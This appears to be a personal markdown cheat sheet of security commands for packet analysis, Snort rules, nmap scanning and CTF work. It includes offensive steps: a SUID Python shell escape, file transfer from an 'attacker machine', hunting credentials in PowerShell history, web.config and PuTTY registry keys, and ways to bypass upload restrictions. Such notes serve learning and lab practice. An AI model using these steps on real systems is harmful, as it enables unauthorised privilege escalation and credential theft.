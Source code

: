# Useful commands
Collection of useful knowledge, commands, and shortcuts.

## Working with packets

Use `tcpdump` to read .pcap files in the command line. Useful for when you don't have access to WireShark.

```tcpdump -qns 0 -X -r file.pcap```

#### Snort Rules

Detect login attempts with the "Administrator" account and a wrong/no password.

```alert tcp any 21 <> any any (msg: "FAILED LOGIN"; content: "331 Password"; content: "Administrator"; sid: 1000004; rev:1;)```

Dump raw packet data

```sudo snort -v -X -r snort.log.xxxxxxx```

Run Snort as IPS on interfaces eth0 and eth1

```sudo snort -c /etc/snort/snort.conf -q -Q --daq afpacket -i eth0:eth1 -A full```

## Reconnaissance

#### NMAP

Default scan suitable for most networks.

```nmap -sV -sC -O <ip>```

## CTFs

#### Finding flags

Find flag specifying filetype and name and output errors to dev/null

```find / -type f -name <flag> 2>/dev/null```

### Privilege escalation

Refer to [https://gtfobins.github.io/](https://gtfobins.github.io/) for more methods.

##### Find files with SUID permissions

```find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null```

If for example we find that python has SUID permissions, we can move to the python directory and escalate privileges with:

```./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'```

#### Find writable directories/files

```find / -writable -type d 2>/dev/null ```

#### Setup a python http server to download files from attacker machine to target machine.

```python -m http.server```

#### Use gcc to compile a C program

```gcc exploit.c -o exploit```

### Windows

#### Powershell History

Check powershell history (must be run from cmd.exe)

```%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt```

#### IIS

Find database connection strings on the file:

```type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString```

#### PuTTY

Retrieve stored proxy credentials, the command searches for ProxyPassword in a registry key.

```reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s```

## Output formatting

#### Cut

```cat``` the contents of /etc/passwd and pass them through ```cut``` to extract the first field delimited by a colon

 ```cat /etc/passwd | cut -d ":" -f 1```

# Methodology

Reminders for when you get stuck.

### Privilege Escalation

- Check what files you can run as sudo.
- Check for SUID bit set.
```find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null```
- Check cron jobs
```cat /etc/crontab```
- Check for execute permissions when taking over cron jobs.
- Check $PATH for write privileges to any of the folder in $PATH.
- Check if I can modify $PATH
- Check for misconfigured NFS. If a writable share has the "no_root_squash" option set then we can leverage that.
```cat /etc/exports```

### Bypassing file upload restrictions

- Turn off javascript in browser (if webapp doesn't depend on it)
- Intercept and modify the **incoming** page with Burp.
- Intercept and modify the **file upload** with Burp.
- Send the file directly to the upload point.
```curl -X POST -F "submit:<value>" -F "<file-parameter>:@<path-to-file>" <site>```
